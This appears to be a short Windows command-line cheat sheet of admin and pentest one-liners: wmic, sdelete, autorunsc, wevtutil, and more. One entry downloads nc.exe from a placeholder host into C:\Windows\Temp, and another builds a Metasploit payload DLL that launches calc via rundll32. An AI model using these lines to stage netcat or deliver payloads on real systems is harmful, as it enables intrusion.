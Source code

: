 #### Get computer system information, including domain name and memory, using wmic

```
C:\> wmic computersystem list /format:csv
```

#### Use the Package Manager in Windows to install the Telnet client on Windows Vista & higher

```
C:\> pkgmgr /iu:"TelnetClient"
```

#### Secure delete a file/folder in Windows

**Sysinternals**

```
C:\> sdelete -p 10 a.txt
```

To recursively delete folders:

```
C:\> sdelete -10 -r C:\data\
```

#### Show all startup entries while hiding Microsoft entries. CSV output

**It covers more locations than Windows inbuilt tools**

```
C:\> autorunsc -m -c
```

#### Download files via commandline using PS

```
PS C:\> ipmo BitsTransfer;Start-BitsTransfer -Source http://foo/nc.exe -Destination C:\Windows\Temp\
```

#### Fetch the last 10 entries from the Windows Security event log, in text format

```
C:\> wevtutil qe Security /c:10 /f:Text
```

**def is XML**

#### Create a dll that runs calc on invoke

```
msfpayload windows/exec cmd=calc.exe R | msfencode -t dll -o rcalc.dll

C:\> rundll32.exe rcalc.dll,1
```
